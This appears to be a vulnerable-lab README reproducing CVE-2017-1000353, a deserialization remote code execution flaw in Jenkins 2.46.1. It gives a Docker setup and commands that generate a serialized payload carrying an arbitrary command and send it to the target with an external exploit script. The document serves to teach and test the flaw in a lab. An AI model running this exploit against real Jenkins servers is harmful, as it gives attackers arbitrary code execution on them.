

## Jenkins-CI Remote Code Execution Vulnerability (CVE-2017-1000353)

## Environment setup

Start jenkins 2.46.1 by executing the following command:

```bash
docker-compose up -d
```

Wait for the full startup to succeed, and then visit `http://your-ip:8080` to see jenkins running successfully, no need to install it manually.

## Testing process

### Step 1: Generate serialized strings

Referring to <https://github.com/vulhub/CVE-2017-1000353>, first download [CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar), which is the tool for generating the POC.

Execute the following command to generate the bytecode file:

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
# jenkins_poc.ser is the name of the generated bytecode file
# "touch ..." is the arbitrary command to be executed
```

After executing the above code, the jenkins_poc.ser file is generated, which is the serialization string.

### Step 2: Send the packet and execute the command

Download [exploit.py](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py), python3 execute `python exploit.py http://your-ip:8080 jenkins_poc.ser` to send the bytecode file just generated to the target:



Enter docker and find that `/tmp/success` was successfully created, indicating that the command execution vulnerability was successfully exploited:


For a detailed guide on the **Jenkins-CI Remote Code Execution Vulnerability (CVE-2017-1000353)**, including a comprehensive explanation of the vulnerability and potential attack, please refer to the project's documentation at [GitHub Pages](https://sne-m23-sn.github.io/Vulnerable-Nodes-Lab/#CVE-2017-1000353).
